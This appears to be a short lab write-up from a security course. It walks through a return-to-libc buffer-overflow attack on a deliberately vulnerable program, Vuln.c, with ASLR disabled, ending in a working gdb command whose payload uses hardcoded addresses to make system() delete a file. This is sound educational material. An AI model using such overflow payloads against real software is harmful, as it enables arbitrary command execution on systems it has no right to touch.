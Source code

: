 # LAB 3: USE RETURN TO LIBC TO DELETE DUMMYFILE

## Set up

- Change to the older bash and turn off randomly given stack value.

![image](./img/Lab3/image0.png)

- Create `environment variable` using `export`.

![image](./img/Lab3/image2.png)

- Stack frame of `Vuln.c`.

![image](./img/Lab3/image1.png)

## Excution

- We will load `Vuln.out` into `gdb` to find the address of `system()` and the environment variable `path`.

![image](./img/Lab3/image3.png)

- Run the program with:

```
r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x31\xde\xff\xff')")
```

![](./img/Lab3/image4.png)

- `dummyfile` has been deleted.
